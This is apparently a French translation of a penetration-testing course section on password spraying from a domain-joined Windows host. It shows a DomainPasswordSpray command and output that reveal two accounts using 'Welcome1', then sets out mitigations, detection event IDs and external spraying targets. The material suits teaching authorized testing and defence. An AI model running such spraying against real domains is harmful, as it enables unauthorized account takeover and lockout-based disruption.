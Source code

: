 Pulvérisation de mot de passe interne - à partir de Windows
===========================================================

* * * * *

Depuis un pied sur un hôte Windows joint à un domaine, le [DomainPasswordSpray](https://github.com/dafthack/DomainPasswordSpray)outil est très efficace. Si nous sommes authentifiés sur le domaine, l'outil générera automatiquement une liste d'utilisateurs à partir d'Active Directory, interrogera la politique de mot de passe du domaine et exclura les comptes d'utilisateurs en une seule tentative de verrouillage. Comme la façon dont nous avons exécuté l'attaque par pulvérisation à partir de notre hôte Linux, nous pouvons également fournir une liste d'utilisateurs à l'outil si nous sommes sur un hôte Windows mais non authentifiés auprès du domaine. Nous pouvons rencontrer une situation où le client souhaite que nous effectuions des tests à partir d'un appareil Windows géré dans son réseau sur lequel nous pouvons charger des outils. Nous pouvons être physiquement sur place dans leurs bureaux et souhaiter tester à partir d'une machine virtuelle Windows, ou nous pouvons prendre pied grâce à une autre attaque, nous authentifier auprès d'un hôte du domaine et effectuer une pulvérisation de mot de passe dans le but d'obtenir des informations d'identification pour un compte qui a plus de droits dans le domaine.

Plusieurs options s'offrent à nous avec l'outil. Étant donné que l'hôte est joint à un domaine, nous allons ignorer l' `-UserList`indicateur et laisser l'outil générer une liste pour nous. Nous fournirons l' `Password`indicateur et un seul mot de passe, puis utiliserons l' `-OutFile`indicateur pour écrire notre sortie dans un fichier pour une utilisation ultérieure.

#### Utilisation de DomainPasswordSpray.ps1

  Utilisation de DomainPasswordSpray.ps1

```
PS C:\htb> Import-Module .\DomainPasswordSpray.ps1
PS C:\htb> Invoke-DomainPasswordSpray -Password Welcome1 -OutFile spray_success -ErrorAction SilentlyContinue

[*] Current domain is compatible with Fine-Grained Password Policy.
[*] Now creating a list of users to spray...
[*] The smallest lockout threshold discovered in the domain is 5 login attempts.
[*] Removing disabled users from list.
[*] There are 2923 total users found.
[*] Removing users within 1 attempt of locking out from list.
[*] Created a userlist containing 2923 users gathered from the current user's domain
[*] The domain password policy observation window is set to  minutes.
[*] Setting a  minute wait in between sprays.

Confirm Password Spray
Are you sure you want to perform a password spray against 2923 accounts?
[Y] Yes  [N] No  [?] Help (default is "Y"): Y

[*] Password spraying has begun with  1  passwords
[*] This might take a while depending on the total number of users
[*] Now trying password Welcome1 against 2923 users. Current time is 2:57 PM
[*] Writing successes to spray_success
[*] SUCCESS! User:sgage Password:Welcome1
[*] SUCCESS! User:tjohnson Password:Welcome1

[*] Password spraying is complete
[*] Any passwords that were successfully sprayed have been output to spray_success

```

Nous pourrions également utiliser Kerbrute pour effectuer les mêmes étapes d'énumération d'utilisateurs et de pulvérisation que celles présentées dans la section précédente. L'outil est présent dans le `C:\Tools`répertoire si vous souhaitez travailler sur les mêmes exemples à partir de l'hôte Windows fourni.

* * * * *

Atténuations
------------

Plusieurs mesures peuvent être prises pour atténuer le risque d'attaques par pulvérisation de mot de passe. Bien qu'aucune solution unique n'empêche entièrement l'attaque, une approche de défense en profondeur rendra les attaques par pulvérisation de mots de passe extrêmement difficiles.

| Technique | Description |
| --- | --- |
| `Multi-factor Authentication` | L'authentification multifacteur peut réduire considérablement le risque d'attaques par pulvérisation de mot de passe. De nombreux types d'authentification multifacteur existent, tels que les notifications push sur un appareil mobile, un mot de passe à usage unique (OTP) rotatif tel que Google Authenticator, une clé RSA ou des confirmations par SMS. Bien que cela puisse empêcher un attaquant d'accéder à un compte, certaines implémentations multi-facteurs révèlent toujours si la combinaison nom d'utilisateur/mot de passe est valide. Il peut être possible de réutiliser ces informations d'identification avec d'autres services ou applications exposés. Il est important de mettre en place des solutions multifactorielles avec tous les portails externes. |
| `Restricting Access` | Il est souvent possible de se connecter à des applications avec n'importe quel compte d'utilisateur de domaine, même si l'utilisateur n'a pas besoin d'y accéder dans le cadre de son rôle. Conformément au principe du moindre privilège, l'accès à l'application doit être limité à ceux qui en ont besoin. |
| `Reducing Impact of Successful Exploitation` | Un gain rapide consiste à s'assurer que les utilisateurs privilégiés disposent d'un compte séparé pour toutes les activités administratives. Des niveaux d'autorisation spécifiques à l'application doivent également être implémentés si possible. La segmentation du réseau est également recommandée car si un attaquant est isolé dans un sous-réseau compromis, cela peut ralentir ou arrêter complètement le mouvement latéral et d'autres compromis. |
| `Password Hygiene` | Éduquer les utilisateurs sur la sélection de mots de passe difficiles à deviner tels que les phrases de passe peut réduire considérablement l'efficacité d'une attaque par pulvérisation de mot de passe. De plus, l'utilisation d'un filtre de mot de passe pour restreindre les mots de dictionnaire courants, les noms de mois et de saisons et les variations du nom de l'entreprise rendra assez difficile pour un attaquant de choisir un mot de passe valide pour les tentatives de pulvérisation. |

* * * * *

autres considérations
---------------------

Il est essentiel de s'assurer que votre politique de verrouillage de mot de passe de domaine n'augmente pas le risque d'attaques par déni de service. S'il est très restrictif et nécessite une intervention administrative pour déverrouiller les comptes manuellement, un spray de mot de passe négligent peut verrouiller de nombreux comptes en peu de temps.

* * * * *

Détection
---------

Certains indicateurs d'attaques par pulvérisation de mots de passe externes incluent de nombreux verrouillages de compte sur une courte période, des journaux de serveur ou d'application indiquant de nombreuses tentatives de connexion avec des utilisateurs valides ou inexistants, ou de nombreuses demandes sur une courte période vers une application ou une URL spécifique.

Dans le journal de sécurité du contrôleur de domaine, de nombreuses instances de l'ID d'événement [4625 : un compte n'a pas pu se connecter](https://docs.microsoft.com/en-us/windows/security/threat-protection/auditing/event-4625) pendant une courte période peuvent indiquer une attaque par pulvérisation de mot de passe. Les organisations doivent avoir des règles pour corréler de nombreux échecs de connexion dans un intervalle de temps défini pour déclencher une alerte. Un attaquant plus avisé peut éviter la pulvérisation du mot de passe SMB et cibler LDAP à la place. Les organisations doivent également surveiller l'ID d'événement [4771 : Échec de la pré-authentification Kerberos](https://docs.microsoft.com/en-us/windows/security/threat-protection/auditing/event-4771) , ce qui peut indiquer une tentative de pulvérisation du mot de passe LDAP. Pour ce faire, ils devront activer la journalisation Kerberos. Cet [article](https://www.hub.trimarcsecurity.com/post/trimarc-research-detecting-password-spraying-with-security-event-auditing) détaille les recherches sur la détection de la pulvérisation de mot de passe à l'aide de la journalisation des événements de sécurité Windows.

Avec ces atténuations finement réglées et avec la journalisation activée, une organisation sera bien placée pour détecter et se défendre contre les attaques de pulvérisation de mots de passe internes et externes.

* * * * *

Pulvérisation de mot de passe externe
-------------------------------------

Bien qu'en dehors du cadre de ce module, la pulvérisation de mots de passe est également un moyen courant que les attaquants utilisent pour tenter de prendre pied sur Internet. Nous avons eu beaucoup de succès avec cette méthode lors de tests d'intrusion pour accéder à des données sensibles via des boîtes de réception de courrier électronique ou des applications Web telles que des sites intranet externes. Certaines cibles communes incluent :

-   Microsoft 0365
-   Outlook Web Exchange
-   Accès Web Exchange
-   Skype Entreprise
-   Serveur Lync
-   Portails Microsoft Remote Desktop Services (RDS)
-   Portails Citrix utilisant l'authentification AD
-   Implémentations VDI utilisant l'authentification AD comme VMware Horizon
-   Portails VPN (Citrix, SonicWall, OpenVPN, Fortinet, etc. qui utilisent l'authentification AD)
-   Applications Web personnalisées utilisant l'authentification AD

* * * * *

Aller plus loin
---------------

Maintenant que nous avons plusieurs ensembles d'informations d'identification valides, nous pouvons commencer à creuser plus profondément dans le domaine en effectuant une énumération des informations d'identification avec divers outils. Nous allons parcourir plusieurs outils qui se complètent pour nous donner l'image la plus complète et la plus précise d'un environnement de domaine. Avec ces informations, nous chercherons à nous déplacer latéralement et verticalement dans le domaine pour éventuellement atteindre l'objectif final de notre évaluation.
